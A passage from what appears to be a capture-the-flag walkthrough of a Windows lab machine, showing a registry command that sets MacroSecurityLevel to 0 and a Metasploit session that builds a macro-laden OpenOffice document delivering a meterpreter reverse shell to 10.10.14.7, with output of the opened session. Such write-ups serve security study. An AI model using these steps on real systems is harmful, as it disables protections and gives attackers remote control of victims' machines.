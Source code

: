 ```console
OFFICE\Registry Editors                    Group            S-1-5-21-1199398058-4196589450-691661856-1106 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192
```

So we are able to update the `MacroSecurityLevel` key.

```console
(remote) tstark@DC:C:\$ Set-ItemProperty -Path "$key\MacroSecurityLevel" -Name "Value" -Value 0
```

We can now upload a document with a malicious macro created with MetaSploit and wait for it to get executed.

```console
msf6 > use exploit/multi/misc/openoffice_document_macro
msf6 exploit(multi/misc/openoffice_document_macro) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/misc/openoffice_document_macro) > set LHOST 10.10.14.7
msf6 exploit(multi/misc/openoffice_document_macro) > run
[*] Started reverse TCP handler on 10.10.14.7:4444
[*] Using URL: http://10.10.14.7:8080/PvPe6N5kOKQ
[*] Server started.
[*] Generating our odt file for Apache OpenOffice on Windows (PSH)...
[*] Packaging directory: /opt/metasploit/data/exploits/openoffice_document_macro/Basic
[*] Packaging directory: /opt/metasploit/data/exploits/openoffice_document_macro/Basic/Standard
[*] Packaging file: Basic/Standard/Module1.xml
[*] Packaging file: Basic/Standard/script-lb.xml
[*] Packaging file: Basic/script-lc.xml
[*] Packaging directory: /opt/metasploit/data/exploits/openoffice_document_macro/Configurations2
[*] Packaging directory: /opt/metasploit/data/exploits/openoffice_document_macro/Configurations2/accelerator
[*] Packaging file: Configurations2/accelerator/current.xml
[*] Packaging directory: /opt/metasploit/data/exploits/openoffice_document_macro/META-INF
[*] Packaging file: META-INF/manifest.xml
[*] Packaging directory: /opt/metasploit/data/exploits/openoffice_document_macro/Thumbnails
[*] Packaging file: Thumbnails/thumbnail.png
[*] Packaging file: content.xml
[*] Packaging file: manifest.rdf
[*] Packaging file: meta.xml
[*] Packaging file: mimetype
[*] Packaging file: settings.xml
[*] Packaging file: styles.xml
[+] msf.odt stored at /home/bashee/.msf4/local/msf.odt
```

Next we upload the generated file to the server and wait for the macro to get executed. This may take a minute or two.

```console
[*] 10.10.11.3       openoffice_document_macro - Sending payload
[*] Sending stage (201798 bytes) to 10.10.11.3
[*] Meterpreter session 1 opened (10.10.14.7:4444 -> 10.10.11.3:64661) at 2024-07-16 15:02:50 +0200
msf6 exploit(multi/misc/openoffice_document_macro) > sessions

Active sessions
===============

  Id  Name  Type                     Information         Connection
  --  ----  ----                     -----------         ----------
  1         meterpreter x64/windows  OFFICE\ppotts @ DC  10.10.14.7:4444 -> 10.10.11.3:64661 (10.10.11.3)

msf6 exploit(multi/misc/openoffice_document_macro) > sessions 1
```